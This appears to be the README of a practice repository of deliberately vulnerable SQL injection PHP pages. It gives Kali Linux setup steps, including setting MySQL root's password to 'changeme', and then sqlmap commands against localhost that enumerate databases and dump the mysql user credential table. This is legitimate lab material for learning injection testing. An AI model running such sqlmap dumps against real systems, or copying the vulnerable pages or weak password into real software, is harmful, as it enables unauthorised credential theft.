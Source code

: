 on fresh installed linux kali 1.0.9a do:

sudo -s

apt-get install gedit phpmyadmin

cd /var/www/
git clone https://github.com/loeken/sqlinjection_examples
cd sqlinjection_examples
service mysql start
use mysql;
update user set password=PASSWORD("changeme") where User='root';
flush privileges;
create database sqlinjection_examples;
use sqlinjection_examples;
source schema.sql;

then http://localhost/phpmyadmin/ and import the schema


sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= --dbs

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql --tables

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql -T user --dump


